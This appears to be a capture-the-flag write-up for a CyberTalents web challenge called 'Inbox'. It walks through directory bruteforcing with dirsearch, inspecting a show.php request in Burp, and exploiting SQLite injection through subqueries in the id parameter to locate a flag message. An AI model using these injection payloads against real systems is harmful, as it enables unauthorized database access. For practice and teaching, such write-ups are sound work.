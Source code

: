 # Solve Inbox
#### https://cybertalents.com/challenges/web/Inbox

![alt text](images/image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6m86dv9q5i4vlgj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

We found /data

![alt text](images/image-1.png)

### Analyze with burp
The request to view an email is sent to `show.php`

```http
POST /show.php HTTP/1.1
Host: wcamxwl32pue3e6m86dv9q5i4vlgj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 8
Origin: http://wcamxwl32pue3e6m86dv9q5i4vlgj6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6m86dv9q5i4vlgj6zqdkgxu639-web.cybertalentslabs.com/
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _fbp=fb.1.1718765789636.122478108392360263; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0; PHPSESSID=a010hdbo5dll4mmqpvn6sj3bo5

id=21658
```
The response as json
```json
{"title":"Hi","msg":"Curabitur massa lacus, dapibus vel quam facilisis, tristique convallis metus. Integer euismod pulvinar aliquam."}
```
Try to cause error with `'` in the id parameter

We got error `Error : HY000 1` which is Encountering SQLite

### SQLI
We could in Injected only with Subqueries beacuse our input reflected in a main query

Try to dump the database tables but I get null.

Try id table:

`id=(select+id+from+sqlite_master+where+Title="Hi")`
![alt text](images/image-2.png)

Search for a message with title flag
`id=(select+id+from+sqlite_master+where+Title="flag")`
![alt text](images/image-3.png)

### Resources
[SQLite cheet sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

>Find More on ==> github.com/MedhatHassan 
